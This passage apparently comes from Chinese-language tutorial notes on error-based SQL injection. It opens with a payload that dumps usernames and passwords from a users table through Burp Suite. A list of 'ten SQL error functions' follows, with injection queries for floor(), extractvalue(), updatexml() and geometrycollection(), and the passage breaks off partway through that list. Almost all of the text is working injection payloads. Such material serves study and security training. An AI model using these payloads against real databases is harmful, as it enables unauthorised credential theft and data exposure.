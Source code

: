 使用burpsuite获取所有的用户名和密码

```sql
1' or (select 1 from(select count(*),concat(floor(rand(0)*2),0x7e,(
select concat(0x23,user,0x3a,password,0x23) from users limit 0,1
),0x7e)x from information_schema.tables group by x)a)--+
```

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675302145634-f9a62c96-0f96-4564-bf17-2a0759cd1d4b.png)

## 十种SQL报错函数

1.floor()
select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675152463415-bb9d5c72-f223-43d7-ad11-566f2806f448.png)

2.extractvalue()
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675152463501-b57bc1ed-d9c9-43e0-b31a-ec2920681985.png)

3.updatexml()
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675152463376-5ea65fa6-e843-477d-88d4-44e2f12d336b.png)

4.geometrycollection()
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
